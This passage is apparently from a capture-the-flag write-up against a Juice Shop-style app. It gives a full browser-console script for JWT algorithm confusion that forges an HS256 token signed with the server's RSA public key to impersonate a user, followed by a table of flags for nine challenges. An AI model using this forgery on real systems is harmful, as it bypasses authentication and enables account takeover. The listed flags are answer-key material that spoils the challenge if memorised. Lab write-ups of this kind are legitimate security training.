

---

## 9. Forged Signed JWT — 1350 pts

**Flag:** `pcgCTF{e94ac7bc9d0904c3f6d6971c0c8c9a69d8cfcf0e}`

Server key `jwtForgedChallenge`. **Algorithm-confusion.** The server calls `jwt.verify(token, publicKey)` with no algorithm allowlist, so a token with `alg: HS256` is verified by HMAC-ing with the RSA **public** key as the secret. Impersonate `rsa_lord@juice-sh.op`.

**Steps** — devtools console (uses Web Crypto, no libraries):
```js
const pub = await (await fetch('/encryptionkeys/jwt.pub')).text();   // exact PEM bytes
const enc = new TextEncoder();
const b64u  = b => btoa(String.fromCharCode(...new Uint8Array(b))).replace(/=/g,'').replace(/\+/g,'-').replace(/\//g,'_');
const b64us = s => btoa(s).replace(/=/g,'').replace(/\+/g,'-').replace(/\//g,'_');
const head = b64us(JSON.stringify({alg:'HS256',typ:'JWT'}));
const body = b64us(JSON.stringify({data:{email:'rsa_lord@juice-sh.op'},iat:Math.floor(Date.now()/1000)}));
const input = head + '.' + body;
const key = await crypto.subtle.importKey('raw', enc.encode(pub), {name:'HMAC',hash:'SHA-256'}, false, ['sign']);
const sig = await crypto.subtle.sign('HMAC', key, enc.encode(input));
const token = input + '.' + b64u(sig);
await fetch('/rest/user/whoami', {headers:{Authorization:'Bearer '+token}});
```



---

## Flag summary

| # | Challenge | Points | Flag |
|---|-----------|--------|------|
| 1 | Vulnerable Infrastructure | 450 | `pcgCTF{f060ef84315d5c5b9c6444d764326ca19bbcadf7}` |
| 2 | Legacy Typosquatting | 700 | `pcgCTF{55688b979c852100af38cbda0801a0b442e56d95}` |
| 3 | Vulnerable Library | 700 | `pcgCTF{5655086bfa1aa034ec288a254555748be6f57d4c}` |
| 4 | Frontend Typosquatting | 1000 | `pcgCTF{5c4df2528fd8162ff4605c5b628670bf7d99e403}` |
| 5 | Supply Chain Attack | 1000 | `pcgCTF{fdaa5bcdb45b959b12c3c9d31e601c4977b3fc29}` |
| 6 | Unsigned JWT | 1000 | `pcgCTF{9a586b2dafe2e64a4f39d5c1a6afb4ba8daf2eb5}` |
| 7 | Local File Read | 1000 | `pcgCTF{dbcb5a81f06eeb7555255ccf758a8eedb41e194e}` |
| 8 | Arbitrary File Write | 1350 | `pcgCTF{3c15f92cab6858f467b33c5c080d9c213637f2ef}` |
| 9 | Forged Signed JWT | 1350 | `pcgCTF{e94ac7bc9d0904c3f6d6971c0c8c9a69d8cfcf0e}` |

